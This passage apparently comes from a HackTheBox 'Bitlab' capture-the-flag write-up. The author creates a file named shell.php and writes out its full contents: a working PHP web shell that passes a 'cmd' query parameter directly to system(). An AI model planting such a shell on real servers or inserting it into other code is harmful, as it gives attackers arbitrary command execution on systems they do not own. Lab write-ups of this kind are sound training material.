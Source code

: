 ![new-file-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bitlab/img/new-file-16.png)


From there, I name the file `shell.php` and give it the following contents:

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```
